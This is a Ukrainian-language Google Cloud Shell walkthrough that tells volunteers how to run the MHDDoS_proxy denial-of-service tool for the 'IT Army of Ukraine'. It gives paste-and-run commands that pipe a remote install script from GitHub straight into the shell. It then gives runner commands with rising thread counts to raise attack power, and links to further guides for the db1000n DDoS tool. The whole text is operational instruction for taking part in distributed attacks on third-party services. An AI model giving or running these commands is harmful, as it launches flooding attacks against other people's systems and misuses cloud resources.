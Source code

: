 
#   Все буде Україна! 💙💛

## Бажаю вам гарного дня!

###  Запуск MHDDoS_proxy

- для початківців пропоную хоча б частково ознайомитись з  інструкцією 👉  [Як запустити «Death by 1000 needles» (db1000n) в Google Cloud Shell](https://telegra.ph/YAk-zapustiti-dvanadcyat-ekzemplyar%D1%96v-Death-by-1000-needles-db1000n-v-Google-Cloud-Shell-ne-vikoristovuyuchi-VPN-05-04)

### ☁️  Cloud Shell  зараз працє в  ефемерному режимі
- це означає що все створене під час цього сеансу видалиться разом з віртуальною машиною  **після закінчення даного сеансу**

###  Зверніть увагу   
- якщо з'єднання перервано, бажано  **перезавантажитись** натиснувши кнопку

[![Open in Cloud Shell](https://telegra.ph/file/22b02a59993bd344b2bc9.png)](https://shell.cloud.google.com/cloudshell/open?shellonly=true&tutorial=mhddos_proxy_tutorial.md&git_repo=https://github.com/patatakartata/Cloud_Shell_DDoS&tutorial=mhddos_proxy_tutorial.md)

Щоб перейти до запуску **MHDDoS_proxy** натисніть **START**

 ## Давайте почнемо
-  для запуска MHDDoS_proxy скопіюйте команду розташовану нижче та натисніть клавішу **ENTER** 
```bash
cd ~/ && source <(curl https://raw.githubusercontent.com/patatakartata/Cloud_Shell_DDoS/main/mhddos_proxy_install.sh)
```
-   якщо деякий час все працює без ***роз'єднань***, можна підвищити потужність. Для цього *зупиніть* процес натиснувши **Ctrl+C** та запустіть наступну команду
```bash
cd ~/ && cd mhddos_proxy && ./runner.sh python3 -t 500 --itarmy --vpn
```
-   або наступну команду ще з більшою потужністю
```bash
cd ~/ && cd mhddos_proxy && ./runner.sh python3 -t 600 --itarmy --vpn
```
### 
Щоб переглянути навантаження на процесор використаємо команду **htop**
-   для цього додайте ще один термінал натиснувши 
<walkthrough-open-cloud-shell-button open-cloud-shell><walkthrough-open-cloud-shell-button open-cloud-shell/>

    та виконайте наступну команду
```bash
htop
```

## Пропоную для ознайомлення:

* натисніть на кнопку щоб завантажити новий сеанс Google Cloud Shell з інструкцією по запуску **«Death by 1000 needles» (db1000n)**.

[![Open in Cloud Shell](https://telegra.ph/file/22b02a59993bd344b2bc9.png)](https://shell.cloud.google.com/cloudshell/open?shellonly=true&tutorial=tutorial.md&git_repo=https://github.com/patatakartata/Cloud_Shell_DDoS&tutorial=tutorial.md)

* інструкція для початківців   
 👉 [Як запустити «Death by 1000 needles» (db1000n) в Google Cloud Shell](https://telegra.ph/YAk-zapustiti-dvanadcyat-ekzemplyar%D1%96v-Death-by-1000-needles-db1000n-v-Google-Cloud-Shell-ne-vikoristovuyuchi-VPN-05-04)

* інструкція для більш досвідчених   
 👉 [Як запустити потужний Db1000nX100 з використанням VPN в Google Cloud Shell](https://telegra.ph/Zapusk-Db1000nX100-u-Google-Cloud-Shell-05-20)
 
* офіційна сторінка   [⚡ It Army of Ukraine ⚡](https://itarmy.com.ua/)  має багато корисної інформації   

##  **Все буде Україна! 💙💛**

<walkthrough-conclusion-trophy>
</walkthrough-conclusion-trophy>
Натиснувши кнопку FINISH довідка закриєця і ви перейдете до головного меню довідника Google Cloud Shell.   
Кнопка PREVIOUS поверне вас на попередню сторінку.

<walkthrough-footnote>Звертайтесь patatakartata@gmail.com або @patatakartata</walkthrough-footnote>

